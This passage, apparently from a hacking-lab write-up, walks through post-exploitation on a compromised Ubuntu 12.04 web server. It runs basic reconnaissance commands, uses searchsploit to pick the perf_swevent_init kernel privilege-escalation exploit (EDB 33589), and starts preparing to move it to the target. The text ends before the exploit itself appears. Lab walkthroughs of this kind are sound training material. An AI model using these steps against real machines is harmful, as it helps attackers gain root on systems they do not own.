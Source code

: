Success! We now have an open shell connection with the target.
Let's use some simple commands to gather basic information about the machine:
* `pwd` to *p*rint *w*orking *d*irectory: `/usr/lib/cgi-bin` path
* [`whoami`](https://en.wikipedia.org/wiki/Whoami) to display the username we're logged with: `www-data` user
* `uname -a` to print basic information about the system: `Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux`

Now let's try to change working directory into the `/root` folder using the `cd /root` command
`//bin/sh: 39: cd: can't cd to /root`.
Seems like our user does not have the needed permissions to access it.


# Privilege Escalation
Using the information we found using the `uname -a` command, we can look for known vulnerabilities using `searchsploit`:

```console
searchsploit ubuntu 3.2.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu  | linux/local/18411.c
Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/ | linux_x86-64/local/33589.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCC | linux/dos/43234.c
Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) -  | linux_x86-64/local/34134.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64)  | linux/local/44299.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora  | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - L | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) -  | linux/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu  | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/1 | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Acces | linux/local/41760.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The second exploit -`Linux Kernel 3.2.0-23/3.5.0-23` - looks like a good option. 
In order to find  some more details regarding that exploit we'll use the `-p` flag. It will also copy the exploit path to our clipboard (nice touch searchsploit :D)

```console
searchsploit -p 33589
  Exploit: Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)
      URL: https://www.exploit-db.com/exploits/33589
     Path: /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c
File Type: C source, ASCII text, with CRLF line terminators

Copied EDB-ID #33589's path to the clipboard
```

Copy the C file into our working directory. We'll give it the same name as it's source file this time, but you may want to change it to something short and easy. up to you:
`cp /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c 33589.c`
As per the exploit's [exploit-db](https://www.exploit-db.com/exploits/33589) page, this is a "Local" type exploit, meaning we need to execute it **on the target machine**. 
Python provides a one-line HTTP server creation:
